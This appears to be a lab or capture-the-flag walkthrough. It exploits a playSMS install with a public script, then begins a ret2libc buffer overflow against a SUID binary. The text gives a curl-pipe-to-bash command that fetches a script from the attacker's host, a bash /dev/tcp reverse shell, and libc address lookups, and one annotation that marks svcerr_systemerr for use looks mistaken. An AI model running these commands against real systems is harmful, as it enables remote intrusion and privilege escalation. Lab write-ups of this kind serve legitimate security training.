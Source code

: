We can git clone this repositries and we can use this to get a reverse shell :

```bash
python3 playsmshell.py --password idkwhatispass --url http://10.10.10.111:9999/playsms --command "curl 10.10.14.24:8000/yoyo.sh | bash"
```
and in this case the yoyo.sh file contains the following code :

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.24/8080 0>&1'
```
and we will get a shell back when we listen for it using nc -nvlp 8080 now we would be able to cat out the user.txt file and now ennumerating a little further using sutff like sudo -l and find / -perm -u=s -type f 2>/dev/null we see that there is an intresting binary called rop and transferring it over to our local machine using netcat and using it with gdb we can easily find that the EIP is writtable after 52 characters

```bash
$ ldd rop
linux-gate.so.1 =>  (0xb7fda000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000) # We use this one 
/lib/ld-linux.so.2 (0xb7fdb000)

```

```bash
$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh         
 15ba0b /bin/sh
```

```bash
./rop $(python /dev/shm/exploit.py)
```

```bash                                                     
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
   112: 0002edc0    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10   
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0 # We gotta use this one 
   450: 0002edf0   197 FUNC    GLOBAL DEFAULT   13 __cxa_thread_atexit_impl@@GLIBC_2.18
   558: 000b07c8    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
   616: 00115fa0    56 FUNC    GLOBAL DEFAULT   13 svc_exit@@GLIBC_2.0
   652: 0002eda0    31 FUNC    GLOBAL DEFAULT   13 quick_exit@@GLIBC_2.10   
   876: 0002ebf0    85 FUNC    GLOBAL DEFAULT   13 __cxa_atexit@@GLIBC_2.1.3
  1046: 0011fb80    52 FUNC    GLOBAL DEFAULT   13 atexit@GLIBC_2.0
  1394: 001b2204     4 OBJECT  GLOBAL DEFAULT   33 argp_err_exit_status@@GLIBC_2.1  
  1506: 000f3870    58 FUNC    GLOBAL DEFAULT   13 pthread_exit@@GLIBC_2.0
  2108: 001b2154     4 OBJECT  GLOBAL DEFAULT   33 obstack_exit_failure@@GLIBC_2.0
  2263: 0002e9f0    78 FUNC    WEAK   DEFAULT   13 on_exit@@GLIBC_2.0
  2406: 000f4c80     2 FUNC    GLOBAL DEFAULT   13 __cyg_profile_func_exit@@GLIBC_2.2
```

```
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
   245: 00112f20    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0   # We gotta use this one 
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE  
   1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```
